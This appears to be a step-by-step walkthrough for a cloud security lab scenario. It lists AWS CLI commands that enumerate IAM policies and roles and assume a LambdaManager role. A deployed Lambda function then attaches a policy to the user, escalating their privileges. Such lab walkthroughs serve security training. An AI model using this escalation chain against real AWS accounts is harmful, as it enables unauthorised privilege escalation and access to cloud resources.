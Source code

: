 `aws configure --profile scenario7_<user_id>`

`aws iam list-attached-user-policies --user-name <username_from_mail> --profile scenario7_<user_id>`

`aws iam get-policy-version --policy-arn <user-policy arn> --version-id v1 --profile scenario7_<user_id>`

`aws iam list-roles --profile scenario7_<user_id>`

`aws iam list-attached-role-policies --role-name LamdaExecution-role-<user_id> --profile scenario7_<user_id>`

`aws iam list-attached-role-policies --role-name LambdaManager-role-<username_from_mail> --profile scenario7_<user_id>`

`aws iam get-policy-version --policy-arn <LambdaManager-policy arn> --version-id v1 --profile scenario7_<user_id>`

`aws sts assume-role --role-arn <LambdaManager-role arn> --role-session-name LambdaManager --profile scenario7_<user_id>`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = '<username_from_mail>', PolicyArn='<arn_from_mail>')
	return response
````
**Note**: The function name needs to be `Sc7FinalLambda<userid>`.
`aws lambda create-function --function-name Sc7FinalLambda<userid> --runtime python3.6 --role < LamdaExecution-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager`

`aws lambda invoke --function-name Sc7FinalLambda<userid> out.txt --profile lambdaManager`
# If you have error try to use

`aws lambda invoke --function-name Sc7FinalLambda<userid> --profile lambdaManager --cli-binary-format raw-in-base64-out response.json`

`aws s3 ls --profile scenario7_<user_id>`

